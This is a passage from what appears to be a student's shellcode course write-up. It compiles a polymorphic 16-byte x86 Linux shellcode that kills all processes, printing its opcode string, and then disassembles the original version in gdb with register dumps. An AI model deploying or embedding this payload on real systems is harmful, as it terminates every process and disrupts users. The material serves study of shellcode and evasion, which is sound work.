 #### Compiling the Polymorphic Shellcode

~~~ bash
skawa@ubuntu:~/Desktop/code/assignment/assignment6$ ./compile.sh kill-all-processes
[+] Assembling with Nasm
[+] Linking
[+] Extracting Opcodes
"\x6a\x09\xb0\x09\xb1\x04\xf6\xe1\xfe\xc0\x59\x6a\xff\x5b\xcd\x80"
[+] Size: 16 bytes
skawa@ubuntu:~/Desktop/code/assignment/assignment6$
~~~

#### Disassembly of the Original Shellcode

~~~ nasm
skawa@ubuntu:~/Desktop/code/assignment/assignment6$ gdb -q ./kill-all-processes-original
Reading symbols from /home/skawa/Desktop/code/assignment/assignment6/kill-all-processes-original...(no debugging symbols found)...done.
(gdb) break _start
Breakpoint 1 at 0x8048080
(gdb) run
Starting program: /home/skawa/Desktop/code/assignment/assignment6/kill-all-processes-original

Breakpoint 1, 0x08048080 in _start ()
(gdb) disas
Dump of assembler code for function _start:
=> 0x08048080 <+0>:	push   0x25
   0x08048082 <+2>:	pop    eax
   0x08048083 <+3>:	push   0xffffffff
   0x08048085 <+5>:	pop    ebx
   0x08048086 <+6>:	push   0x9
   0x08048088 <+8>:	pop    ecx
   0x08048089 <+9>:	int    0x80
End of assembler dump.
(gdb) break *0x08048089
Breakpoint 2 at 0x8048089
(gdb) c
Continuing.

Breakpoint 2, 0x08048089 in _start ()
(gdb) i r
eax            0x25	37
ecx            0x9	9
edx            0x0	0
ebx            0xffffffff	-1
esp            0xbffff6e0	0xbffff6e0
ebp            0x0	0x0
esi            0x0	0
edi            0x0	0
eip            0x8048089	0x8048089 <_start+9>
eflags         0x202	[ IF ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x0	0
(gdb)
~~~
